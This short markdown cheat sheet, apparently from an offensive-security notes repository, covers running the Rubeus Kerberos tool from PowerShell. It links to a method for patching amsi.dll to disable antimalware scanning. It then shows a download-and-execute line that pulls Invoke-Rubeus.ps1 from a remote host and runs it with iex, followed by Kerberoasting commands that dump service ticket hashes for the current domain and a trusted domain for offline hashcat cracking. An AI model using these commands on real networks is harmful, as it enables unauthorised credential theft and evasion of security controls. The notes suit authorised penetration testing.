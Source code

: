 # Reference
- [Rubeus](https://github.com/GhostPack/Rubeus)

# Add to PowerShell
- [Patch amsi.dll](https://github.com/okazymyrov/piki/blob/master/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/okazymyrov/piki/master/Invoke-Rubeus.ps1')
```

# Commands

## Kerberoast for the current domain
```powershell
Invoke-Rubeus 'kerberoast /outfile:hashes.<domain>.txt /format:hashcat'
```

## Kerberoast for a trusted domain
```powershell
Invoke-Rubeus 'kerberoast /outfile:hashes.<domain>.txt /format:hashcat /domain:<trusted domain> /dc:<trusted DC>'
```
